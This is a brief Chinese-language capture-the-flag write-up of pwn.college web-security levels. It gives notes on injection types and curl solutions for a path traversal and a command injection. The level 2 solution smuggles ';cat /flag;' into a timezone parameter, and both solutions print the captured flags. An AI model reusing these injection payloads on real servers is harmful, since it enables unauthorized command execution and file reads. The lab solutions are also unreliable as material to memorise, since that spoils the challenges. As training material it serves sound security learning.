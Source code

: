 # Knoeledge

需要知道web服务器都能干什么事

SQL，大名鼎鼎的SQL注入

命令注入

HTML，也就是注入部分JavaScript

C语言的堆栈注入

总的来说就是利用Web服务器会执行一些语句（部分参数来自于我们的输入），来进行操作。

Origin的概念：(`<shceme>`,`<host>`,`<post>`)
（http, exapmle.com,80）

HTML-embeds、域名、站点等概念，基本上都是计算机网络的内容

# WP

## level1 Exploit a path traversal vulnerability

这个其实我找不到太好的方法，只能猜，猜到了就是了
```
hacker@web-security-level-1:~$ curl http://challenge.localhost:80/?path=/flag
pwn.college{4MSrtxHJYUF2_wAz81iNV6UtM5K.ddDOzMDL2QjMyMzW}
hacker@web-security-level-1:~$
```
这个也不让安装dirsearch，不知道怎么自己扫目录，也许可以自己写脚本？
## level2 Exploit a command injection vulnerability

这个十分简单，就是一个简单的命令注入，只需要让前面的命令闭合即可
```
hacker@web-security-level-2:~$ curl "http://challenge.localhost:80/?timezone=;cat%20/flag;#"
pwn.college{o0h_efJ2CAv60AmeSOoPYGrZKBs.dhDOzMDL2QjMyMzW}
Mon Jul 24 07:17:20 UTC 2023
```

## level3 Exploit an authentication bypass vulnerability
![界面](image-8.png)